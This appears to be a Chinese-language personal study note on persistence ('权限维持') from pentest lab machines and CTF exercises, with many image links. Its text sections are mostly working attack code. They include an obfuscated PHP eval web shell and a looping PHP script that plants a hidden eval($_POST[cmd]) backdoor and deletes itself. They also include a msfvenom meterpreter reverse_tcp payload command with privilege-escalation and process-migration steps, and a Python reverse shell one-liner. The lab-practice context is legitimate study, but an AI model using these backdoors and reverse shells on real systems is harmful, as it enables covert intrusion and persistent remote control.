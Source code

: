```yaml
---
title: 权限维持
date: 2024-01-24 20:17:48
tags:
---
```


### 四种执行函数

```txt
/* system('whoami');

echo exec('whoami');

echo "<br>";
$a = "ping ".$_GET['a'];
if($a){
	@system($a);
	echo "<br>";
}
passthru("whoami");

echo "<br>";
echo `whoami`;

echo "<br>";
$b = $_GET['cmd'];
if($b){
	@system($b);
	echo "<br>";
} */
// @assert($_POST['a']);
/* $addition = create_function('$a.$b','return $a+$b;');
echo $addition(2,3); */
/* $ngQK=create_function(chr(7560/210).base64_decode('cw==').chr(0x2b6-0x247).base64_decode('bQ==').chr(0423-0256),base64_decode('ZQ==').base64_decode('dg==').chr(0x168b8/0x3b8).str_rot13('y').chr(309-269).base64_decode('JA==').chr(0xb3b0/0x190).chr(78255/705).base64_decode('bQ==').base64_decode('ZQ==').str_rot13(')').chr(0x4610/0x130));
$ngQK(base64_decode('NDkxN'.'TI5O0'.'BldkF'.'sKCRf'.''.str_rot13('H').str_rot13('R').chr(077006/01066).base64_decode('VA==').base64_decode('Vg==').''.''.base64_decode('Rg==').chr(531-415).base64_decode('ag==').str_rot13('o').str_rot13('J').''.'RdKTs'.'xNDc0'.'NTg3O'.'w=='.''));


Attrib +s +a +h +r 1.txt隐藏文件1.txt
```

显示隐藏文件

![显示隐藏文件](https://raw.githubusercontent.com/20231201/123/main/显示隐藏文件.png)

![显示隐藏文件1](https://raw.githubusercontent.com/20231201/123/main/显示隐藏文件1.png)

### 创建一个隐藏文件并在生效后自我删除的例子：

```txt
<?php
ignore_user_abort(); //关掉浏览器，PHP脚本也可以继续执行.
set_time_limit(0);//通过set_time_limit(0)可以让程序无限制的执行下去
$interval = 5; // 每隔*秒运行
do {
$filename = 'test.php';
if(file_exists($filename)) {
echo "xxx";
}
else {
$file = fopen("test.php", "w");
$txt = "<?php @eval($"."_POST[cmd]);phpinfo(); ?>\n";    //木马密码cmd
fwrite($file, $txt);
fclose($file);
eval(system("Attrib +s +a +h +r test.php")); //隐藏文件
unlink(__FILE__);
}
sleep($interval);
} while (true);
?>
```

### 2024年1月22日靶机关键代码

```txt



msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.2.60 lport=4444 -f exe -o 1.exe

run 双击木马
chcp 65001
whoami
exit
getsystem
shell
whoami
tasklist /SVC(复制后去https://i.hacking8.com/tiquan识别杀毒软件)
普通用户：systeminfo（复制去https://i.hacking8.com/tiquan看漏洞）




ps
migrate 4176(explorer.exe的id)

taskkill /F /T /IM wininit.exe
```

![copy](https://raw.githubusercontent.com/20231201/123/main/copy.png)

![copy复制文件至该文件夹](https://raw.githubusercontent.com/20231201/123/main/copy复制文件至该文件夹.png)

![不可修改文件夹的创建与删除](https://raw.githubusercontent.com/20231201/123/main/不可修改文件夹的创建与删除.png)

### ctfshow

敏感信息泄露：https://blog.csdn.net/qq_65165505/article/details/133783811

![11](https://raw.githubusercontent.com/20231201/123/main/11.png)

![12](https://raw.githubusercontent.com/20231201/123/main/12.png)

![12.](https://raw.githubusercontent.com/20231201/123/main/12..png)

![13](https://raw.githubusercontent.com/20231201/123/main/13.png)

![13.](https://raw.githubusercontent.com/20231201/123/main/13..png)

![14](https://raw.githubusercontent.com/20231201/123/main/14.png)

![14.](https://raw.githubusercontent.com/20231201/123/main/14..png)

![14..](https://raw.githubusercontent.com/20231201/123/main/14...png)

![16探针](https://raw.githubusercontent.com/20231201/123/main/16探针.png)

![16phpinfo](https://raw.githubusercontent.com/20231201/123/main/16phpinfo.png)

![18](https://raw.githubusercontent.com/20231201/123/main/18.png)

![18根据代码](https://raw.githubusercontent.com/20231201/123/main/18根据代码.png)

![19](https://raw.githubusercontent.com/20231201/123/main/19.png)

![19.](https://raw.githubusercontent.com/20231201/123/main/19..png)

![20](https://raw.githubusercontent.com/20231201/123/main/20.png)

![20.](https://raw.githubusercontent.com/20231201/123/main/20..png)

### 1月24日靶机

参考https://www.yuque.com/g/sunwu-pbywz/baji/wtlm0gprmfztttk4/collaborator/join?token=oS4LR7481GpyvBTl&source=doc_collaborator# 《01 vulnhub-BoredHackerBlog: Social Network》

md5解密:https://www.somd5.com/

关键代码：

```txt
ifdown eth0
ifup eth 0
arp-scan -l -i etho
nmap -p- ip
nmap -p duanko -sV ip
dirsearch -u wangzhi -r
nc -nvlp 4444

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.101",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

ifconfig
for i in $(seq 1 254); do ping -c 1 172.17.0.$i; done
python -c 'import pty; pty.spawn("/bin/bash")'     
ctrl +z 
stty raw -echo;fg;reset 


/

docker学习笔记：https://blog.csdn.net/qq_16452745/article/details/103181663
apt install docker
docker search wordpress
docker pull homebrew/ubuntu16.04
docker ps(查看正在运行的镜像)
docker run -itd --name ubuntu16 homebrew/ubuntu16.04 /bin/bash
docker ps
docker exec -it ubuntu16  /bin/bash
	whoami
	id
	sudo su
	whoami
	cd /root
	ls -al
	exit
	exit
docker cp 37292.c ubuntu16:/root/



```

![1](https://raw.githubusercontent.com/20231201/123/main/1.png)

![2扫描](https://raw.githubusercontent.com/20231201/123/main/2扫描.png)

![3admin页面](https://raw.githubusercontent.com/20231201/123/main/3admin页面.png)

![4连接](https://raw.githubusercontent.com/20231201/123/main/4连接.png)

![加固](https://raw.githubusercontent.com/20231201/123/main/加固.png)

![5查看为docker容器](https://raw.githubusercontent.com/20231201/123/main/5查看为docker容器.png)

![6venom](https://raw.githubusercontent.com/20231201/123/main/6venom.png)

![7链接venom](https://raw.githubusercontent.com/20231201/123/main/7链接venom.png)

![7.](https://raw.githubusercontent.com/20231201/123/main/7..png)

![8查看控制venom节点，启动隧道](https://raw.githubusercontent.com/20231201/123/main/8查看控制venom节点，启动隧道.png)

![编辑venom配置文件并扫描](https://raw.githubusercontent.com/20231201/123/main/编辑venom配置文件并扫描.png)

![扫描1](https://raw.githubusercontent.com/20231201/123/main/扫描1.png)

![扫描2](https://raw.githubusercontent.com/20231201/123/main/扫描2.png)

![扫描3](https://raw.githubusercontent.com/20231201/123/main/扫描3.png)

![搜索Elasticsearch漏洞并查看python使用版本](https://raw.githubusercontent.com/20231201/123/main/搜索Elasticsearch漏洞并查看python使用版本.png)

![写入数据并攻击该端口](https://raw.githubusercontent.com/20231201/123/main/写入数据并攻击该端口.png)

![登录账号并尝试提权](https://raw.githubusercontent.com/20231201/123/main/登录账号并尝试提权.png)

![docker](https://raw.githubusercontent.com/20231201/123/main/docker.png)

![docker1](https://raw.githubusercontent.com/20231201/123/main/docker1.png)

![docker提权](https://raw.githubusercontent.com/20231201/123/main/docker提权.png)

1月25日靶机：https://www.yuque.com/sunwu-pbywz/baji/it8hxy8y3sgl1f03

































